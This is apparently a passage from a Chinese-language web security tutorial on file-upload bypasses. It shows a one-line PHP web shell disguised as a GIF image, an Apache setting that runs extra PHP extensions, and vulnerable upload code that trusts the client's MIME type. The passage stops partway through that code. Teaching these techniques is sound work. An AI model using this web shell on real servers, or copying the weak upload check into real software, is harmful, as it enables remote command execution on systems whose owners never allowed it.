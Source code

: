 
shell1.jpg
```php
GIF89a<?php system($_GET['cmd']);?>
```

![](assets/markdown-img-paste-20180415185718156.png)

更改后缀名，更改文件内容包含`GIF89a`

不知为何只有`GIF89a`，因为我不知道其他的文本是多少

### 文件后缀名绕过

#### 黑名单绕过

配置服务器将.php，.php2，.php3，.php4，.php5，.php6，以及 .phtml 文件都当做 PHP 来运行

vim /etc/httpd/conf.d/php.conf

```
<FilesMatch \.php$>
    SetHandler application/x-httpd-php
</FilesMatch>
```
改为

```
<FilesMatch "\.ph(p[2-6]?|tml)$">
    SetHandler application/x-httpd-php
</FilesMatch>
```

`httpd -k restart`

test2.php
```php
<?php
if (!empty($_FILES)) {
	var_dump($_FILES);
	if ($_FILES['upload']['error'] > 0) {
		echo "error: " . $_FILES['upload']['error'] . '<br />';
	}else{
		$upload_name = './uploaded/' . $_FILES['upload']['name'];
		$extention = pathinfo($upload_name, PATHINFO_EXTENSION);
		if ($_FILES['upload']['type'] !== 'image/jpeg' && $_FILES['upload']['type'] !== 'image/png') {
			die('file type is wrong!');
```